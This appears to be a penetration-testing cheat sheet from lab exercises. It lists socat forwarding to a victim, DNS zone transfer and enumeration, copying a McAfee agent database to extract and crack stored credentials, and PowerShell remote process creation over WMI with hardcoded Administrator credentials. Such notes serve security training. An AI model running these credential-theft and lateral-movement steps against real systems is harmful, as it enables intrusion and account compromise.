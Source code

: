 ```bash
```

### socat
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<victim.ip.add.ress>:9999
```

### Cadaver
```bash
cadaver http://192.168.161.122/
``` 8

### dig
```bash
dig @10.10.10.161 AXFR htb.local
```

### dnsenum
```bash
dnsenum 192.168.162.122
dnsenum --dnsserver 10.129.14.128 --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
```

### scp
```bash
# copy the ma.db to our AttackBox:
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .

```

### McAfee
- location: C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB\ma.db
- transfer files to kali linux: scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
- view contents with sqlitebrowser: sqlitebrowser ma.db
- focus on the AGENT_REPOSITORIES table
- check DOMAIN, AUTH_USER, and AUTH_PASSWD field
- crack credentials: https://github.com/funoverip/mcafee-sitelist-pwd-decryption

### WMI
```bash
# 
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

# Remote Process Creation Using WMI
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
